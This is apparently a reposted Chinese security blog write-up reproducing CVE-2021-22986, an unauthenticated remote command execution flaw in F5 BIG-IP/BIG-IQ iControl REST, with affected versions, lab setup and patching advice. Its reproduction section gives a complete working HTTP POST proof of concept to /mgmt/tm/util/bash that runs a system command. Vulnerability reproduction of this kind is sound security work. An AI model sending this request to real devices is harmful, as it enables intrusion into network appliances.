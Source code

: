 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-WScu2pgUjvjEqWKt5f19A)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****zhang0b****@Timeline Sec  
**

**本文字数：800**

**阅读时长：2～3min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

_F5_ _BIG_-_IP_ 是美国 _F5_ 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。  

**0x02 漏洞概述**  

  

**编号：CVE-2021-22986**  
F5 BIG-IP/BIG-IQ iControl REST 未授权远程代码执行漏洞中，未经身份验证的攻击者可通过 iControl REST 接口，构造恶意请求，执行任意系统命令。  

**0x03 影响版本**  

  

F5 BIG-IP 16.0.0-16.0.1

F5 BIG-IP 15.1.0-15.1.2

F5 BIG-IP 14.1.0-14.1.3.1

F5 BIG-IP 13.1.0-13.1.3.5

F5 BIG-IP 12.1.0-12.1.5.2

F5 BIG-IQ 7.1.0-7.1.0.2

F5 BIG-IQ 7.0.0-7.0.0.1

F5 BIG-IQ 6.0.0-6.1.0

**0x04 环境搭建**  

  

流程如下：  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaLND5FRuXPWAGpeVFbVWVUSBZVVmNj7WOflsG2Szko09uP5VFUT7GIa7MGLzNBkbrNlmWsHLicJng/640?wx_fmt=png)  

1、登陆 F5 官网申请测试 license 90 天

```
https://www.f5.com/trials
```

2、按流程注册登陆后获得 license，会发送至注册邮箱  

3、下载漏洞版本镜像  

```
https://downloads.f5.com/esd/product.jsp?sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2
```

4、下载后使用 Vmware 安装即可

**0x05 漏洞复现**  

  

数据包如下，其中  

```
Authorization: Basic YWRtaW46QVNhc1M=

base64解码值为admin:ASasS

需要注意此处X-F5-Auth-Token值为空
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaLND5FRuXPWAGpeVFbVWVUYQmYYMw5tPNY4fSLTLXQzQtiaxx5gdZRhRVLyGiaJ0nicibwcf1trvf1NQ/640?wx_fmt=png)  

POC:  

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 41

{"command":"run","utilCmdArgs":"-c id"}
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaLND5FRuXPWAGpeVFbVWVUiaIoIYbDmydoWj6AFxp9g9w0gvsY7yibqH3oHptFLHCkAGvkKGNcTYQQ/640?wx_fmt=png)

**0x06 修复方式**  

  

1、建议将 F5 BIG-IP / BIG-IQ 升级至安全版本。  

下载地址参考：  

https://support.f5.com/csp/article/K02566623

2、建议利用阿里云安全组功能为 F5 BIG-IP / BIG-IQ 相关管理界面设置白名单，仅对可信地址开放访问。

```
参考链接：
```

http://www.jsdjbh.gov.cn/tgyj/746.htm  

https://www.freebuf.com/vuls/266899.html  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行
